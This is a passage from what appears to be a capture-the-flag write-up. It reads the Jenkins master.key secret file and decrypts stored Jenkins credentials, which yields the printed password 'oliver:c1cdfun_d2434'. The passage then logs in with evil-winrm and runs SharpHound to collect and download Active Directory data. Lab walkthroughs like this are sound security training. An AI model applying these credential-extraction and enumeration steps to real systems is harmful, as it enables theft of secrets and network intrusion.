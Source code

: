 3. master.key -> will be in :

```
cmd /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\master.key" 
```

<img width="1379" height="802" alt="image" src="https://github.com/user-attachments/assets/4407dde7-ac4a-4a80-a4a2-9e39a71dcfb4" />

### And after we run it , we will fint the oliver passwd 

```python
python3 jenkins_offline_decrypt.py master.key util.secret creds.xml 
```

<img width="1098" height="122" alt="image" src="https://github.com/user-attachments/assets/89110dc5-5102-41a7-900b-8215c9f692c3" />

```
oliver:c1cdfun_d2434
```
# Oliver


### We connect as oliver and find the user flag

```
evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'
```

<img width="1061" height="202" alt="image" src="https://github.com/user-attachments/assets/0bc7dffc-97e1-4b88-92ed-f679b6f3b33f" />


<img width="616" height="283" alt="image" src="https://github.com/user-attachments/assets/4905a096-b475-41ed-abdd-514b001e6c98" />



### We upload SharpHound.exe

```
upload SharpHound.exe
```

### And download the bloodhound file 

```
.\SharpHound.exe -c all
```

<img width="1055" height="323" alt="image" src="https://github.com/user-attachments/assets/8c314b0b-36b0-4e5b-bc91-e08bfcedfd88" />

### And use :


```
download 20250916050535_BloodHound.zip
```
